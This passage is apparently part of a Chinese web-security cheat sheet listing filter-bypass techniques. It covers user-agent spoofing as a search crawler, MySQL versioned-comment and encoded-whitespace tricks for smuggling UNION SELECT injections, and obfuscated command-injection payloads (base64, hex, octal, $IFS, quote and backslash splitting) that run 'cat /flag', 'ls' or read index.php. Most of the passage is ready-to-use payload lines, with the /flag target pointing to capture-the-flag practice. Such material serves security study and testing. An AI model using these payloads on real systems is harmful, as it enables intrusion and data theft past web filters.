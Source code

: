 ### 19.爬虫白名单

伪造自己是搜索引擎（修改user-agent）

### 20.数据库注释执行

```sql
/*!50001 select * from table1*/;
```

如果数据库版本是5.00.01 版本以下的，语句才会执行

```sql
/*!45509 union select */ 1,2,3 --+
```

### 21.增加干扰

```sql
union all %23%a0 select 1,2,3 --+
```

### 22.关键字绕过

```php
Base64编码绕过：
echo MTIzCg==|base64 -d     //打印123，MTIzCg==是123的base64编码
echo "Y2F0IC9mbGFn"|base64 -d|bash //执行cat /flag
echo "bHM="|base64 -d|sh           //将执行ls

Hex编码绕过：
echo "636174202f666c6167"|xxd -r -p|bash     将执行cat /flag
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")    执行cat /flag

Oct编码绕过：
$(printf "\143\141\164\40\151\156\144\145\170\56\160\150\160") 执行cat index.php
$(printf "\154\163")       执行ls

内联执行绕过：
echo "a`pwd`"     # 输出a/opt
cat$IFS$9`ls`     # 查看当前目录下的所有的文件内容

引号绕过：
ca""t  =>  cat
mo''re  =>  more  

反斜杠绕过：
ca\t  =>  cat
mo\re  =>  more  
```